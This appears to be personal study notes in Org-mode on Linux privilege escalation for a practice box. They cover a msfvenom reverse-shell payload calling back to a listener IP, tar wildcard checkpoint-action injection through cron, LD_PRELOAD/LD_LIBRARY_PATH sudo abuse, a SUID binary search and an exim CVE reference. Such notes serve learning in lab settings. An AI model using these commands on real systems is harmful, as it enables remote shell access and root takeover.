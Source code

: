 #+TITLE: Haxornotes

* Linux PrivEsc (box)
** Msfvenom
- craft reverse_tcp payload to listen on port 4444
- -o output switch
- -p payload switch
- -f format switch
  : msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.6.27.168 LPORT=4444 -f elf -o shell.elf

** Tar PrivEsc
- if tar is executing with a wildcard (*) you can use the touch --checkpoint-action=exec=COMMAND &or payload
  to privesc with it
  #+begin_src bash

touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf

  #+end_src
- if youre doing a privesc make sure that the path is included in the crontab or wherever
- When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

** Sudo Env Variables
#+begin_src bash

user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

#+end_src
- LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.
  : gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
  : sudo LD_PRELOAD=/tmp/preload.so program-name-here
  : gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
  : sudo LD_LIBRARY_PATH=/tmp apache2

** SUID / SGID Executables - Known Exploits
- Find all the SUID/SGID executables on the Debian VM
  : find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
- exim-4.84-3
- cve-2016-1531
